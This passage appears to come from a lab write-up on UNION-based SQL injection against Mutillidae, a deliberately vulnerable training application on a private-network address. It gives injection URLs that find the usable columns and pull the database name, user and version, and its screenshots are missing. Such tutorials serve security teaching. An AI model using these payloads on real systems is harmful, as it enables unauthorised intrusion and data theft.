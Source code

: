  As it is having 5 columns the query worked fine and it provides the correct result


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

## OUTPUT :
![alt text](img/21.png)


http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,2,3,4,5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.


http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :